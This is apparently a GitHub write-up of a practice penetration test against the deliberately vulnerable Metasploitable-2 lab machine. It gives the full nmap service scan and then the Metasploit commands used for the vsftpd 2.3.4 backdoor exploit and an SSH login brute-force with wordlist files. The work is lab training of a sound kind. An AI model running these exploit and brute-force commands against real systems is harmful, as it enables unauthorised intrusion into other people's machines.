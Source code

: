 # 🔍 Metasploitable-2 Write UP🔓🛡

### Getting the IP address of the target machine

I used arp-sca -l to get the local ip of the target machine 

> Target ip -> 192.168.100.8

### Scan the target machine using nmap

```bash

┌──(kali㉿kali)-[~/Desktop/Machines_WriteUps/m3taspl1abl3]
└─$ nmap -sV 192.168.100.8 -o nmap_full_scan
Starting Nmap 7.95 ( https://nmap.org ) at 2025-08-18 14:50 EDT
Nmap scan report for 192.168.100.8
Host is up (0.0026s latency).
Not shown: 977 closed tcp ports (reset)
PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 2.3.4
22/tcp   open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
23/tcp   open  telnet      Linux telnetd
25/tcp   open  smtp        Postfix smtpd
53/tcp   open  domain      ISC BIND 9.4.2
80/tcp   open  http        Apache httpd 2.2.8 ((Ubuntu) DAV/2)
111/tcp  open  rpcbind     2 (RPC #100000)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
512/tcp  open  exec        netkit-rsh rexecd
513/tcp  open  login       OpenBSD or Solaris rlogind
514/tcp  open  tcpwrapped
1099/tcp open  java-rmi    GNU Classpath grmiregistry
1524/tcp open  bindshell   Metasploitable root shell
2049/tcp open  nfs         2-4 (RPC #100003)
2121/tcp open  ftp         ProFTPD 1.3.1
3306/tcp open  mysql       MySQL 5.0.51a-3ubuntu5
5432/tcp open  postgresql  PostgreSQL DB 8.3.0 - 8.3.7
5900/tcp open  vnc         VNC (protocol 3.3)
6000/tcp open  X11         (access denied)
6667/tcp open  irc         UnrealIRCd
8009/tcp open  ajp13       Apache Jserv (Protocol v1.3)
8180/tcp open  http        Apache Tomcat/Coyote JSP engine 1.1
MAC Address: 08:00:27:CF:4C:27 (PCS Systemtechnik/Oracle VirtualBox virtual NIC)
Service Info: Hosts:  metasploitable.localdomain, irc.Metasploitable.LAN; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.05 seconds



```

So here I got the many ports open to penetrate. Lets exploit it one by one

### Exploiting FTP
Here the version of ftp on target machine is vsftpd 2.3.4, lets search for any exploits that are available in metasploit console

![ftp exploit search](screenshots/exp1.png)

Here I got the the exploit using the search command in msfconsole, lets use it to exploit the target

```bash

msf6 > use 0
[*] No payload configured, defaulting to cmd/unix/interact
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > 


```

here we are ready with payload to exploit the target, now we have to set some parameters to run the exploit

use the `show option` command to get the options 

![payload options](screenshots/opt1.png)

Here it says we have to set rhost that is target ip, we can use

```bash
set rhost 192.168.100.8
```

and then run/exploit command to execute the payload on target machine

![ftp exploited](screenshots/ftp-done.png)

Here our exploit works and we got the reverse tcp shell of the target machine.

### Exploiting SSH using metasploit

As we know ssh port(22) is open lets see we can exploit it using meatasploit
![ssh exploit](screenshots/ssh_1.png)

Here I got this exploits, and I will be using `auxiliary/scanner/ssh/ssh_login `
It has many options lets set the required one first

```bash

set RHOSTS 192.168.100.8
set USER_FILE username.txt # to set a text file  for usernames where each line has expected username
set PASS_FILE passwd.txt # to set a password text file to check using each user specified above
set VERBOSE true  # to print all backgound processing 
```

Lets Exploit....

![ssh shell exploited](screenshots/ssh_2.png)

